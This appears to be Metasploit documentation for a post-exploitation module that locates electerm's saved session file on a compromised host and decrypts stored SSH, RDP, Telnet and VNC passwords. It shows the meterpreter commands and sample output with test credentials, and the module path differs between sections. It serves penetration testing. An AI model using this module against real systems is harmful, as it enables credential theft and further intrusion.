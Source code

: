 ## Vulnerable Application
  electerm is free and open source Terminal/ssh/telnet/serialport/RDP/VNC/sftp client.

  This module will determine if electerm is installed on the target system and, if it is, it will try to
  dump all saved session information from the target. The passwords for these saved sessions will then be decrypted
  where possible.

  Any electerm version on any operating system are supported.

  If it works normally, the connection name, host, username and password saved in the certificate file will be printed

### Installation Steps

  1. Download and run the electerm installer (https://github.com/electerm/electerm/).
  2. Select default installation
  3. Open the software and create a connection
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a session.
  2. Do: `set session <session number>`
  3. Do: `run post/multi/gather/credentials/electerm`
  4. If the system has saved passwords, they will be printed out.

## Options

### BOOKMARKS_FILE_PATH

Specifies the `electerm.bookmarks.nedb` file path for electerm. (eg.
`C:\Users\FireEye\AppData\Roaming\electerm\users\default_user\electerm.bookmarks.nedb`).

## Scenarios

```
meterpreter > run post/windows/gather/credentials/electerm

[*] Gather electerm Passwords
[*] Looking for JSON files in /home/kali-team/.config/electerm/users/default_user/electerm.bookmarks.nedb
[+] electerm electerm.bookmarks.nedb saved to /home/kali-team/.msf4/loot/20240816195518_default_127.0.0.1_electerm.creds_806863.txt
[*] Finished processing /home/kali-team/.config/electerm/users/default_user/electerm.bookmarks.nedb
[+] Passwords stored in: /home/kali-team/.msf4/loot/20240816195518_default_127.0.0.1_host.electerm_421975.txt
[+] electerm Password
=================

Title   Type    Host       Port  Username  Password       Description
-----   ----    ----       ----  --------  --------       -----------
                127.0.0.1  22    ssh       asdasdawdasdw
                127.0.0.1  22    asdas     asdasdas
drp     rdp     127.0.0.1  3389  drp       drppass        rdp test
telnet  telnet  127.0.0.1  23    root      guest          telnet des
vnc     vnc     127.0.0.1  5900  vncuser   vncpass        vnc des
[*] Post module execution completed
meterpreter >
```
